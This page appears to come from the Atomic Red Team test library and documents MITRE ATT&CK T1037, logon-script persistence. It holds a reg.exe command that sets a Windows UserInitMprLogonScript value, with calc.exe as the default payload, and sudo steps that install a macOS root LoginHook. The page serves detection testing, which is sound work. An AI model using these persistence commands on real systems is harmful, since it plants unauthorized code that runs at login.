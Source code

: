 ```yaml
---
title: T1037 Logon Scripts
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1037)
<blockquote>
<b>Windows</b>
<br/>
Windows allows logon scripts to be run whenever a specific user or group of users log into a system. (Citation: TechNet Logon Scripts) The scripts can be used to perform administrative functions, which may often execute other programs or send information to an internal logging server.
<br/>
<br/> 
If adversaries can access these scripts, they may insert additional code into the logon script to execute their tools when a user logs in. This code can allow them to maintain persistence on a single system, if it is a local script, or to move laterally within a network, if the script is stored on a central server and pushed to many systems. Depending on the access configuration of the logon scripts, either local credentials or an administrator account may be necessary.
<br/>
<br/>  
<b>Mac</b>
<br/>
Mac allows login and logoff hooks to be run as root whenever a specific user logs into or out of a system. A login hook tells Mac OS X to execute a certain script when a user logs in, but unlike startup items, a login hook executes as root (Citation: creating login hook). There can only be one login hook at a time though. If adversaries can access these scripts, they can insert additional code to the script to execute their tools when a user logs in.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Logon Scripts](#atomic-test-1---logon-scripts)

- [Atomic Test #2 - Logon Scripts - Mac](#atomic-test-2---logon-scripts---mac)

<br/>

## Atomic Test #1 - Logon Scripts
Added Via Reg.exe

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| script_command | Command To Execute | String | cmd.exe /c calc.exe|

#### Run it with `command_prompt`!

```
REG.exe ADD HKCU\Environment /v UserInitMprLogonScript /t REG_MULTI_SZ /d "#{script_command}"
```
<br/>
<br/>

## Atomic Test #2 - Logon Scripts - Mac
Mac logon script

**Supported Platforms:** macOS

#### Run it with these steps!

1. Create the required plist file

    <code>sudo touch /private/var/root/Library/Preferences/com.apple.loginwindow.plist</code>

2. Populate the plist with the location of your shell script

    <code>sudo defaults write com.apple.loginwindow LoginHook /Library/Scripts/AtomicRedTeam.sh</code>

3. Create the required plist file in the target user's Preferences directory

	  <code>touch /Users/$USER/Library/Preferences/com.apple.loginwindow.plist</code>

4. Populate the plist with the location of your shell script

	  <code>defaults write com.apple.loginwindow LoginHook /Library/Scripts/AtomicRedTeam.sh</code>
